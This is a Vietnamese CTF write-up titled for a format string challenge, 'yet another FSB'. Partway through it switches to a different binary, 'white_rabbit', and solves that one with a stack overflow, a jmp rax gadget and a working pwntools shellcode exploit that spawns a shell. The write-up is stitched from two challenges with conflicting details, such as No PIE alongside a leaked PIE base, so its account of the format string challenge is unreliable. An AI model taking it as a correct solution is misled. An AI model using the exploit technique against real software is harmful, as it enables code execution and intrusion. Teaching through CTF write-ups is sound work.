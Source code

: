 # 0XLAUGH CTF 2024 - yet another FSB

Bài giải này được lấy ý tưởng từ anh `Lio`, một tiền bối trong BKISC chung team với mình hehe.

```
File:     /home/kali/CTF/0xlaugh/yet_another_fsb/public/yet_another_fsb
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x3fe000)
Stripped:   No
```

Ta có thể thấy rằng đây là bài Partial RELRO, và NX được bật, ngoài ra không có gì nổi bật khác. Cùng chạy thử file binary xem nó làm gì nào

```
└─$ ./yet_another_fsb
ABC
ABC



```

```
└─$ ./yet_another_fsb
%p %p %p %p %p %p %p %p
0x7ffcd2d516a0 0xff 0x7f522b22f981 (nil) 0x7f522b319f40 0x7025207025207025 0x2520702520702520 0x2070252070252070
�2+R

```

Có vẻ bài toán nhận đầu vào, sau đó khi ta nhập vào thì nó in ra lại chuỗi ta đã nhập -> Format String Bug. Cùng nhau dissamble file binary để xem đoạn code nào

```
undefined8 main(void)

{
  char input [270];
  short i;

  i = 0;
  setup();
  do {
    read(0,input,255);
    printf(input);
  } while (i != 0);
  return 0;
}


```

À há, đúng như dự định. Bài toán này có lỗ hổng Format String, kết hợp với Checksec chỉ bật `Partial Relro`, ý tưởng là như sau: Thay thế GOT của hàm `printf` thành `system` và tiến hành gọi `/bin/sh`. Hàm `printf` nhận đầu vào `input` và đưa vào thanh ghi `rdi`, từ đó ta có thể nhập chuỗi `/bin/sh` vào và chuỗi đó sẽ được đưa vào thanh ghi `rdi`. Lần sau khi gọi `printf` thì nó sẽ gọi `system('/bin/sh')`. Nhưng, có 1 vấn đề rất lớn mà chúng ta phải đối mặt, biến i được khai báo với giá trị là 0, nhưng vòng while chỉ thực hiện khi `(i != 0)`, nói cách khác. Vòng lặp này chỉ thực hiện 1 lần, cho nên việc mà ta có thể vừa `leak` địa chỉ, vừa `overwrite` GOT của hàm `printf` là không thể. Đó là lúc chúng ta cần phải nghĩ theo 1 hướng: đó là

```

void follow(void)

{
  char buffer [112];

  gets(buffer);
  return;
}

```

Và, 1 lỗ hổng khá hiển nhiên xảy ra ở hàm `follow` này. Lỗ hổng Stack Buffer Overflow, khi char buffer chỉ chứa được `112` bytes, trong khi chương trình lại sử dụng `gets` để cho ta nhập input cho
buffer, với gets, ta sẽ có thể nhập vào số bytes tuỳ thích, chỉ cần ta ghi đè được địa chỉ trả về buffer với 1 địa chỉ ta kiểm soát là xong bài toán. Địa chỉ trả về ta muốn ghi đè này sẽ chứa `shellcode` mà mình đặt. Vậy
thì khai thác thôi nào

# EXPLOITATION

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined follow()
             undefined         AL:1           <RETURN>
             undefined1[112]   Stack[-0x78]   buffer                                  XREF[1]:     00101171(*)
                             follow                                          XREF[4]:     Entry Point(*), main:0010122e(c),
                                                                                          0010205c, 001020d0(*)
        00101169 55              PUSH       RBP

```

Ta thấy rằng từ buffer ta nhập vào đến return address thì cần `0x78` bytes, ta chỉ cần đẩy vào `0x78` bytes padding là sẽ tới được địa chỉ trả về, nhưng trả về cái gì đây... Cứ thử trước đã:
Nhập vào 0x78 byte padding, breakpoint tại `ret` của hàm `follow` và xem trên `gdb.attach` xem các giá trị thanh ghi nhé:

```

Breakpoint 1, 0x0000560e5f5ce17f in follow () at warmup.c:11
warning: 11     warmup.c: No such file or directory
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────
*RAX  0x7ffd883884a0 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
*RBX  0x7ffd88388638 —▸ 0x7ffd88389ed7 ◂— './white_rabbit'
*RCX  0x7fd4029ff8e0 (_IO_2_1_stdin_) ◂— 0xfbad208b
*RDX  0
*RDI  0x7fd402a01720 (_IO_stdfile_0_lock) ◂— 0
 RSI  0x7fd4029ff963 (_IO_2_1_stdin_+131) ◂— 0xa01720000000000a /* '\n' */
*R8   0
*R9   0
 R10  3
 R11  0x246
*R12  0
*R13  0x7ffd88388648 —▸ 0x7ffd88389ee6 ◂— 'POWERSHELL_TELEMETRY_OPTOUT=1'
 R14  0x7fd402a5d000 (_rtld_global) —▸ 0x7fd402a5e2e0 —▸ 0x560e5f5cd000 ◂— 0x10102464c457f
 R15  0x560e5f5d0dd8 —▸ 0x560e5f5ce110 ◂— endbr64
*RBP  0x4141414141414141 ('AAAAAAAA')
*RSP  0x7ffd88388518 —▸ 0x560e5f5ce200 (main+128) ◂— 0x8d48c68948ffffff
*RIP  0x560e5f5ce17f (follow+22) ◂— ret
──────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────
 ► 0x560e5f5ce17f <follow+22>    ret                                <main+128>
    ↓







```

Cái chuỗi padding tôi nhập vào là 120 kí tự A, và nhìn xem, những kí tự đó đã vào trong thanh ghi `RAX`, vậy có nghĩa là nếu chúng ta có thể nhảy về `RAX` thì ta có thể đặt shellcode tại đó -> chương trình
thực hiện đoạn shellcode là xong. Vậy ý tưởng ban đầu là ta cần tìm 1 cái gadget liên quan đến `call rax` hoặc `jump rax`, sử dụng ROPgadget để tìm nào.

```
0x00000000000010bf : jmp rax
```

Ta đã tìm được nó, nhưng cái này chỉ là offset, đó là lý do ta cần phải có được binary base, rồi lấy `binary base + offset` thì ra địa chỉ thực tế của nó.

```

  (\_/)
  ( •_•)
  / > 0x555555555180

follow the white rabbit...

```

Nhưng trước hết ta cần lấy được địa chỉ main và lưu nó vào 1 biến đã, vì từ đó mới có binary base và leak được cái gadget kia. Tiếp theo, ta chuẩn bị shellcode thôi. Trong thư viện
`pwntools` có lệnh shellcraft.sh() để tạo nên shellcode, tôi đã dùng nó

```
shellcode = shellcraft.sh()
```

Mọi thứ đã chuẩn bị xong, giờ thì thử viết script và chạy thôii

```
from pwn import *


p = process('./white_rabbit')
e = ELF('./white_rabbit')
context.arch='amd64'
# gdb.attach(p, api=True)

shellcode = asm(shellcraft.sh())



p.recvuntil(b'> ')
main = int(p.recvn(14), 16)
base_binary = main - e.sym['main']
info("BASE BINARY: %#x", base_binary)
jump_rax = base_binary + 0x00000000000010bf

# payload = sub_rsp
payload =  shellcode
payload += b'A' * (120 - len(shellcode))
payload += p64(jump_rax)
p.recvuntil(b'follow the white rabbit...\n')
p.sendline(payload)

p.interactive()
```

Ta đặt shellcode ngay đầu `rax`, để khi nhảy lại tới `rax` thì sẽ thực thi luôn shellcode. Vậy là ta đã có được shell.

```
[*] BASE BINARY: 0x56325b5bc000
[*] Switching to interactive mode
$ cat flag.txt
ZAWARUDO$
```
